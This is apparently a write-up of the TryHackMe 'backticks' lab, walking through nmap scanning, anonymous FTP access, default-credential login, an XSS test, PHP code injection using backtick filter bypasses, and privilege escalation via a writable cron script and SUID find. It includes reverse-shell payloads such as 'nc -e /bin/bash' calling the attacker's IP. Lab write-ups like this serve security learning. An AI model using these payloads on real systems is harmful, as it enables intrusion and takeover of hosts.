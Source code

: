 ## Room  is backtikcs on tryhackme

The room will let you practise php fileter bypass
1. nmap port scanning
 
          ================================================
         nmap -vv 10.10.183.115 -Pn -T4 -F  --open  -oN nmap-100.txt
         ================================================
         Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
         Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 08:02 +11
         Initiating Parallel DNS resolution of 1 host. at 08:02
         Completed Parallel DNS resolution of 1 host. at 08:02, 0.07s elapsed
         Initiating Connect Scan at 08:02
         Scanning 10.10.183.115 [100 ports]
         Discovered open port 80/tcp on 10.10.183.115
         Discovered open port 111/tcp on 10.10.183.115
         Discovered open port 3306/tcp on 10.10.183.115
         Discovered open port 22/tcp on 10.10.183.115
         Discovered open port 21/tcp on 10.10.183.115
         Discovered open port 2049/tcp on 10.10.183.115
         Completed Connect Scan at 08:02, 3.69s elapsed (100 total ports)
         Nmap scan report for 10.10.183.115
         Host is up, received user-set (0.72s latency).
         Scanned at 2021-11-27 08:02:25 +11 for 3s
         Not shown: 94 closed tcp ports (conn-refused)
         PORT     STATE SERVICE REASON
         21/tcp   open  ftp     syn-ack
         22/tcp   open  ssh     syn-ack
         80/tcp   open  http    syn-ack
         111/tcp  open  rpcbind syn-ack
         2049/tcp open  nfs     syn-ack
         3306/tcp open  mysql   syn-ack

         Read data files from: /usr/bin/../share/nmap
         Nmap done: 1 IP address (1 host up) scanned in 3.85 seconds
After further enumeration we found with nmap with more options
       
      ==============================================================
      sudo nmap -v 10.10.183.115 -Pn -sC -sV -O -F -T4 -oN nmap-sVC.txt
      =============================================================
      [sudo] password for mywife: 
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 08:02 +11
      NSE: Loaded 155 scripts for scanning.
      NSE: Script Pre-scanning.
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 08:02
      Completed Parallel DNS resolution of 1 host. at 08:02, 0.00s elapsed
      Initiating SYN Stealth Scan at 08:02
      Scanning 10.10.183.115 [100 ports]
      Discovered open port 80/tcp on 10.10.183.115
      Discovered open port 22/tcp on 10.10.183.115
      Discovered open port 3306/tcp on 10.10.183.115
      Discovered open port 21/tcp on 10.10.183.115
      Discovered open port 111/tcp on 10.10.183.115
      Discovered open port 2049/tcp on 10.10.183.115
      Completed SYN Stealth Scan at 08:02, 2.32s elapsed (100 total ports)
      Initiating Service scan at 08:02
      Scanning 6 services on 10.10.183.115
      Completed Service scan at 08:02, 7.50s elapsed (6 services on 1 host)
      Initiating OS detection (try #1) against 10.10.183.115
      Retrying OS detection (try #2) against 10.10.183.115
      Retrying OS detection (try #3) against 10.10.183.115
      Retrying OS detection (try #4) against 10.10.183.115
      Retrying OS detection (try #5) against 10.10.183.115
      NSE: Script scanning 10.10.183.115.
      Initiating NSE at 08:03
      NSE: [ftp-bounce] PORT response: 500 Illegal PORT command.
      Completed NSE at 08:03, 19.79s elapsed
      Initiating NSE at 08:03
      Completed NSE at 08:03, 8.88s elapsed
      Initiating NSE at 08:03
      Completed NSE at 08:03, 0.00s elapsed
      Nmap scan report for 10.10.183.115
      Host is up (0.71s latency).
      Not shown: 94 closed tcp ports (reset)
      PORT     STATE SERVICE VERSION
      21/tcp   open  ftp     vsftpd 3.0.3
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:10.4.54.226
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 2
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_drwxr-xr-x    2 ftp      ftp          4096 Nov 16 19:45 pub
      22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 ea:b9:0f:99:fd:40:d1:20:a0:f8:68:6b:8e:92:34:43 (RSA)
      |   256 a9:fc:f0:55:6d:a8:3b:f9:1d:f6:5b:ee:22:d3:71:cc (ECDSA)
      |_  256 ae:8e:24:1b:f4:2f:2c:51:08:ca:54:da:8c:ec:e6:c5 (ED25519)
      80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-title: Apache2 Ubuntu Default Page: It works
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      111/tcp  open  rpcbind 2-4 (RPC #100000)

 2. FTP Anonymous Login
 The output of it we will see that we have anonymous access to ftp server on `port 21`
 
     ftp <ip>

        username: anonymous
        passsword: anything
    
then you will find a directory called pub in which inside it has a dockfile which you cam download it through

    get manifest.docs
    
Then navigate to the directory you downloaded and open it to read what is inside. 
It is nothing but a was to use backticks tricks to bypass php filters
  so every thing suspicious is terminated. So using backticks you completely bypass it
 
 3. Web service Enumeration
 
    * navigating to the the web page using the `VPN` ip provided we can see that there is default ubuntu page
           ![](images/page.png)
     * Viewing source codes we found there i some comments which is suspecious and it looks like base64 encoded string   
         
          ![](images/footer.png)
         so decoding it as `base64` we can see the out put is
              
                 echo "L2JhY2t0aWNrcwo="|base64 -d                                                                   130 ⨯
                       /backticks
                       
 so going to `http://<ip>/backticks` we can see the login page now
   trying the deafult usernames and passwords found that `username=admin&& password=admin`
   loggin in we can see that there is a ordering system. Going through it we can see there is `game` to play..
    trying `xss` was possible.
      Example 
      
         <script>alert('xss')</script>
         
  Since our aim is to gain full access to the system, so let's try to execute system comand by `php code injection`
  many payloads failed but since from `ftp server` i learned something `backticks` i tryed to use backticks triks to execute commandds
  
  
  example 
  
    ${print `ls`}
    $print `pwd`}
    ${print `nc -e /bin/bash 10.4.54.226 1191`}
  Then we get reverse shell on backticks as user techguy, so we can submit our user.txt
                 
 ### privilege escation
 
 
   * look at crontabs you may find editable to everybody scripts and it is run as user john so you cat get the user malwarepeter shell now
             
                      # cat /etc/crontab
                                 
                        # /etc/crontab: system-wide crontab
                        # Unlike any other crontab you don't have to run the `crontab'
                        # command to install the new version when you edit this file
                        # and files in /etc/cron.d. These files also have username fields,
                        # that none of the other crontabs do.

                        SHELL=/bin/sh
                        PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

                        # m h dom mon dow user  command
                        17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
                        25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
                        47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
                        52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

                        # user malwarepeter
                        *  *    * * * malwarepeter /opt/script.sh
So editing the file and putting in reverseshell payload like

    nc -e /bin/bash 10.4.54.226 1234
    
Then waiting for few minutes for cronjob to run and get malwarepeter shell on the netcat listerner
  
  #### root  privilege escation
   * To be root just find suid binaries with command like
 
             find / -perm -u=s -type f 2>/dev/null
   * find has SUID so we can use it to read root file like
       
          find . -exec cat /root/root.txt \;
             
   
